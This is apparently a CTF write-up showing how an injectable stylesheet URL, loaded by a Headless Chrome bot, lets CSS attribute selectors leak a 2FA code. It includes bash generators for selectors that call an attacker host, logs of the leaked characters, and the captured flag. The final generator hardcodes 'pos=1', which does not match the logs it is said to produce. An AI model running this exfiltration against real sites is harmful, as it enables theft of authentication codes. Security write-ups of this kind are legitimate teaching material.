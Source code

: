 There's *app_style* parameter contains URL to CSS style. After modifying it to own HTTP server we can see that requests are made by Headless Chrome:

```
3.21.98.146 - - [10/Jun/2020:06:31:10 +0200] "GET /test.css HTTP/1.1" 404 3797 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/83.0.4103.61 HeadlessChrome/83.0.4103.61 Safari/537.36"
```

Basing on tests - Headless Chrome visits website which generate 2FA token and we're able to control CSS style URL added to this page. We can try then to use [CSS Exfiltration](https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d) technique to obtain 2FA code. 

First - we need to know what's attribute *name*, that we want to exfiltrate. To do it, I've generated such CSS file:

```
$ for a in {{a..z},{A..Z},{0..9},.,:,\;,-}; do echo "input[name^='$a] { background: url(https://[redacted]/csp/leak.gif?name=$a); }" ; done > h1.css
```

Then in logs I can find out that first letter of attribute is *c*

```
GET /csp/leak.gif?name=c HTTP/1.1
```

By using this technique I've found out that full attribute name is **code_X** - where X is number from **1** to **7**, which stands for each position of code. Positions are returned in random order each time, so to exfiltrate it properly, we need to know which letter is on which position. Final CSS generator looks like this:

```
#!/bin/bash
for i in `seq 1 7`; do
        for a in {{a..z},{A..Z},{0..9},.,:,\;,-,_}; do echo "input[name='code_$i'][value='$a'] { background: url(https://[redacted]/csp/leak.gif?pos=1&val=$a); }" ; done
done
``` 

After submitting - exfiltrated code shows in log and we can provide it in web application:

```
GET /csp/leak.gif?pos=1&val=g HTTP/1.1
GET /csp/leak.gif?pos=7&val=P HTTP/1.1
GET /csp/leak.gif?pos=5&val=K HTTP/1.1
GET /csp/leak.gif?pos=4&val=m HTTP/1.1
GET /csp/leak.gif?pos=6&val=2 HTTP/1.1
GET /csp/leak.gif?pos=2&val=e HTTP/1.1
GET /csp/leak.gif?pos=3&val=H HTTP/1.1
```

{F861745}

This leads to final point of CTF - the flag:

```
^FLAG^736c635d8842751b8aafa556154eb9f3$FLAG$
```
